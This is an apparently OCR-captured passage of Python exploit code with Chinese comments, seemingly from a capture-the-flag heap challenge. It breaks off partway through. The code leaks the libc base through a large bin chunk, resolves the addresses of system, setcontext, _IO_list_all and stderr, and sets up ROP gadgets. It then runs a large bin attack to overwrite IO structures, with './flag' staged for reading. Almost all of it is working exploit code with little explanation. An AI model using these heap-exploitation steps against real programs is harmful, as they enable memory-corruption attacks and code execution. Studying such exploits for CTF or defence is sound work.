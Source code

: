    ```python
   def run():
       global opcode
       opcode += b"\x05"
       p.sendline(opcode)
       opcode = b""
   
   # 泄漏libc
   add(0x4b0,15)    #15 隔开
   add(0x480,0)    #0
   add(0x4b0,15)    #15 隔开
   edit(15,b"./flag\x00")
   add(0x4a0,1)    #1
   add(0x4b0,15)    #15
   add(0x470,2)    #2
   add(0x4b0,15)    #15 隔开
   run()
   
   
   free(1)
   add(0x4b0,15)    #15 将chunk1放入large bin
   show(1)
   run()
   
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = addr - 0x1E4010
   success("libc_addr==>"+hex(libc_base))
   
   #计算__free_hook和system地址
   setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
   system_addr        = libc_base + libc.sym["system"]
   IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
   IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
   IO_wfile_jumps_addr = libc_base + libc.sym["_IO_wfile_jumps"]
   stderr_addr = libc_base + libc.sym["stderr"]
   # IO_wfile_jumps_addr = libc_base + 0x1E4F80
   
   success("system_addr==>"        + hex(system_addr))
   success("setcontext_addr==>"    + hex(setcontext_addr))
   success("IO_2_1_stdout_addr==>" + hex(IO_2_1_stdout_addr))
   success("IO_list_all_addr==>"   + hex(IO_list_all_addr))
   success("IO_wfile_jumps_addr==>"+ hex(IO_wfile_jumps_addr))
   success("stderr_addr==>"        + hex(stderr_addr))
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr = libc.sym['write']+libc_base
   
   pop_rdi_ret=libc_base + 0x000000000002858f
   pop_rdx_r12_ret=libc_base + 0x0000000000114161
   pop_rax_ret=libc_base + 0x0000000000045580
   pop_rsi_ret=libc_base + 0x000000000002ac3f
   ret= libc_base + 0x0000000000026699
   
   
   # debug()
   # ========== large bin attack ==========
   # 泄漏堆地址 同时完成large bin attack 攻击 覆盖掉IO_list_all
   free(0)
   edit(1,p64(addr)*2 + p64(0) + p64(stderr_addr-0x20))
   add(0x4b0,15)    #15 将chunk0放入large bin 触发large bin attack
   show(1)
   run()
   p.recvuntil(b'Malloc Done\n')
   ```